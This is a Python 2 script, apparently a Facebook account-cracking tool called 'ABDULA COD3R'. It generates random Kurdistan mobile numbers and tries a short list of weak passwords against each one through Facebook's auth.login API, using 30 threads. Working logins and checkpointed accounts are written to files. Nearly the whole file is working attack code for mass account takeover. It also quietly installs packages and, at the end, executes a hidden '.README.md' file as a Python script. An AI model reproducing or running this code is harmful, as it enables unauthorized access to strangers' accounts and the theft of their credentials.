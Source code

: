 # ABDULA_COD3Rfb
import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass
os.system('rm -rf .txt')
for n in range(100000):
    nmbr = random.randint(1111111, 9999999)
    sys.stdout = open('.txt', 'a')
    print nmbr
    sys.stdout.flush()

try:
    import requests
except ImportError:
    os.system('pip2 install requests')

try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 nmbr.py')

from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def exb():
    print '[!] Exit'
    os.sys.exit()


def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)


def t():
    time.sleep(1)


def cb():
    os.system('clear')


logo = logo ="""
\033[1;91m--------------------------------------------
\033[1;91m
\033[1;92m
\033[1;93m
\033[1;94m    ABDULA  COD3R
\033[1;95m
\033[1;96m
\033[1;97m
\033[1;98m
\033[1;98mO--------------------------------------------
\033[1;98mSnapchat/abdula5508
\033[1;98mTelegram/ABDULA_COD3R
--------------------------------------------------------
"""

back = 0
successful = []
cpb = []
oks = []
id = []

def menu():
    os.system('clear')
    print logo
    print 42 * '\x1b[1;91m='
    print '\x1b[1;94m[1]\x1b[1;92m KURDISTAN\x1b[1;91m\xe2\x87\x8b\x1b[1;94m[Up]\x1b[1;93m Cracker Number '
    print 42 * '\x1b[1;91m='
    action()


def action():
    global cpb
    global oks
    bch = raw_input('\n\x1b[1;91mSelect Option \x1b[1;93m>>>\x1b[1;95m  ')
    if bch == '':
        print '[!] Fill in correctly'
        action()
    elif bch == '1':
        os.system('clear')
        print logo
        print '\x1b[1;92m0770, 0750, 0773, 0751'
        try:
            c = raw_input(' Zhmarayak Dane  : ')
            k = ''
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())

        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
    elif bch == '0':
        exb()
    else:
        print '[!] Fill Ba Kalk Naya'
        action()
    xxx = str(len(id))
    psb('[\xe2\x9c\x93] Hamw Raqamakan: ' + xxx)
    time.sleep(0.1)
    psb('\x1b[1;91m[\xe2\x9c\x93]\x1b[1;94m Tkaya Chawarwan Ba ...')
    time.sleep(0.1)
    psb('[!] Bo Wastan Dni Toolaka CTRL+Z')
    time.sleep(0.5)
    print 42 * '\x1b[1;91m='

    def main(arg):
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass

        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass1 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[SUCCESSFULL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass1 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
            else:
                pass2 = '1122334455'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass2 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass2 + '\n')
                okb.close()
                oks.append(c + user + pass2)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[CHECKPOINT]\x1b[1;92m ' + k + c + user + ' >>> ' + pass2 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass2 + '\n')
                cps.close()
                cpb.append(c + user + pass2)
            else:
                pass3 = '1234512345'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass3 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass3 + '\n')
                okb.close()
                oks.append(c + user + pass3)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[CHECKPOINT]\x1b[1;92m ' + k + c + user + ' >>> ' + pass3 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass3 + '\n')
                cps.close()
                cpb.append(c + user + pass3)
            else:
                pass4 = '1234554321'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass4 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass4 + '\n')
                okb.close()
                oks.append(c + user + pass4)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[CHECKPOINT]\x1b[1;92m ' + k + c + user + ' >>> ' + pass4 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass4 + '\n')
                cps.close()
                cpb.append(c + user + pass4)
            else:
                pass5 = '112233445566'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass5 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass5 + '\n')
                okb.close()
                oks.append(c + user + pass5)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[CHECKPOINT]\x1b[1;92m ' + k + c + user + ' >>> ' + pass5 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass5 + '\n')
                cps.close()
                cpb.append(c + user + pass5)
            else:
                pass6 = '123456123456'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass6 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass6 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass6 + '\n')
                okb.close()
                oks.append(c + user + pass6)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[CHECKPOINT]\x1b[1;92m ' + k + c + user + ' >>> ' + pass6 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass6 + '\n')
                cps.close()
                cpb.append(c + user + pass6)
            else:
                pass7 = '11223344'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass7 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass7 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass7 + '\n')
                okb.close()
                oks.append(c + user + pass7)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[CHECKPOINT]\x1b[1;92m ' + k + c + user + ' >>> ' + pass7 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass7 + '\n')
                cps.close()
                cpb.append(c + user + pass7)
        except:
            pass

    p = ThreadPool(30)
    p.map(main, id)
    print 42 * '\x1b[1;91m='
    print '[\xe2\x9c\x93]\x1b[1;93m Process Has Been Completed ....'
    print '[\xe2\x9c\x93]\x1b[1;92m Total OK/\x1b[1;96mCP : ' + str(len(oks)) + '/' + str(len(cpb))
    print '[\xe2\x9c\x93]\x1b[1;91m CP File Has Been Saved : save/checkpoint.txt'
    raw_input('\n[Press Enter To Go Back]')
    os.system('python2 .README.md')
if __name__ == '__main__':
    menu()
